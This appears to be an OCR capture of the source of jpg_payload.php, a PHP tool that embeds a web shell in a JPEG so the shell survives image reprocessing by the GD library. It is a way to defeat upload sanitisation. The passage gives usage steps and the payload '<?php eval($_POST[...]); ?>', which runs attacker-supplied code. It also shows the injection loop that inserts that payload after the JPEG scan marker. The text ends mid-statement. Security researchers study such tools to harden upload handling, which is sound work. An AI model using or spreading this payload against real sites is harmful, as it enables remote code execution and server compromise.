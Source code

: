1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:
php jpg_payload.php &lt;jpg_name.jpg&gt;

In case of successful injection you will get a specially crafted image, which should be uploaded again.

Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
initial image.

Sergey Bobrov @Black2Fan.

See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

*/

$a = '$_POST[eeeeeee]';
$miniPayload = "&lt;?php eval($a); ?&gt;&lt;?php echo phpinfo(); ?&gt;";
/*$miniPayload = "&lt;?php echo phpinfo(); ?&gt;";*/
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}

if(!isset($argv[1])) {
    die('php jpg_payload.php &lt;jpg_name.jpg&gt;');
}

set_error_handler("custom_error_handler");

for($pad = 0; $pad &lt; 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;

    if($dis-&gt;readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }

    while((!$dis-&gt;eof()) &amp;&amp; ($dis-&gt;readByte() == 0xFF)) {
        $marker = $dis-&gt;readByte();
        $size = $dis-&gt;readShort() - 2;
        $dis-&gt;skip($size);
        if($marker === 0xDA) {
            $startPos = $dis-&gt;seek();
            $outStreamTmp = 
                substr($outStream, 0, $startPos) . 
                $miniPayload . 
                str_repeat("\0",$nullbytePayloadSize) . 
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis-&gt;eof())) {
                    if($dis-&gt;readByte() === 0xFF) {
                        if($dis-&gt;readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis-&gt;seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream = 
                    substr($outStream, 0, $startPos) . 